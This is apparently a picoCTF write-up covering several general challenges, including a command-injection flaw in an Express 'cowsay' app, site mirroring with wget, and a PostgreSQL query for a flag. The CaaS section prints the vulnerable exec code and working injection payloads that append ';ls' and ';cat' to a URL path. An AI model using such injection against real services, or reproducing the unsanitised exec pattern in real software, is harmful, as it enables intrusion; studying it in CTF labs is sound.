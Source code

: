 # General / Misc writeup

I will put those questions which I think not "deep-in-the-rabbit-hole" here.

## Scavenger Hunt

`robots.txt` (prevent indexing), `.htaccess` (Apache server config - should not be accessed from client-side) and `.DS_Store` files.

Kind of know it or search it question.

## CaaS

Command line injection - seriously, real applications having this problem is doomed.

Source code of the app:

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

The problem is in the line: ``exec(`/usr/games/cowsay ${req.params.message}`, ...``

It will just run any shell command after adding `;`

Example: (format like bash script)

```bash
$ /usr/games/cowsay gachiBASS  # probably harmless but...

$ /usr/games/cowsay gachiBASS;ls  # We can run everything as that user (whoami)
# By the way the program crashs if you start with ; immediately, so just add something for the cow to output
```

To get the flag:

```bash
$ curl 'https://caas.mars.picoctf.net/cowsay/gachiBASS;ls'
 ___________
< gachiBASS >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

$ curl 'https://caas.mars.picoctf.net/cowsay/gachiBASS;cat%20falg.txt'  # need to URL encode the space, Firefox's inspector helps a lot
 ___________
< gachiBASS >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{cow_flag}
```

## Download / Mirror the whole website (Search source)

Reference: <https://alvinalexander.com/linux-unix/how-to-make-offline-mirror-copy-website-with-wget/>

The hint is: `How could you mirror the website on your local machine so you could use more powerful tools for searching?`

Didn't know `wget` can do so much...

```bash
# convert-links and html-extension options are not really needed for this question
$ wget --mirror            \
     --convert-links     \
     --html-extension    \
     --wait=2            \
     -o dl_log              \
     http://saturn.picoctf.net:61941/

# It takes some time to download the website

$ cd saturn.picoctf.net:61941/  # cd is not really needed
$ grep "picoCTF{" --recursive
css/style.css:/** banner_main picoCTF{that_flag} **/
```

This is useful in all the hide-and-seek plaintext search flag questions.

## PostgreSQL SQL Server

Enter the server following its instructions

```bash
# pico is the db name, username is postgres
psql -h saturn.picoctf.net -p 62606 -U postgres pico

pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

# Now enter the normal SQL statements
pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{that_postgre_SQL_flag}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

```
